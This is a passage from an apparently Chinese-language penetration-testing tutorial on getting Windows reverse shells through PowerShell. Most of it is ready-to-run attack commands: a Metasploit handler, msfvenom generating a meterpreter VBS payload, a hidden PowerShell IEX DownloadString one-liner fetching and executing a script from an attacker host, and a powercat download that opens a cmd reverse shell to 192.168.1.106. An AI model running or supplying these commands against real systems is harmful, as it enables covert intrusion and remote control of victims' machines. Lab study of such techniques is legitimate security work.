 再打开一个终端

```bash
msfconsole
msf6 > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.1.106 -P 9999	#注意要和msfvenom命令中的lhost和lport对应
```

**靶机操作**

```bash
powershell -windowstyle hidden -exec bypass -c "IEX (New-ObjectNet.WebClient).DownloadString('http://192.168.1.106/shell.ps1');1.ps1";
```

msf收到会话。

### PowerShell加载Powercat

**攻击机操作**

```bash
git clone https://github.com/besimorhino/powercat.git #克隆powercat项目

python3 -m http.server #
```

再开一个终端监听端口

```bash
nc -lvvp 9999
```

**靶机操作**

```bash
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.106:8000/powercat.ps1');powercat -c 192.168.1.106 -p 9999 -e cmd"
#注意-c后的ip和-p后的端口要和监听机器的ip和端口对应，http服务要和用python3开启http服务的ip相同，端口默认为8000
```

### PowerShell启动Cscript

**攻击机操作**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.106 LPORT=9999 -f vbs -o 3.vbs

python3 -m http.server
```

```bash
msfconsole
msf6 > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.1.106 -P 9999
```

**靶机操作**

```bash
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.106:8000/3.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```

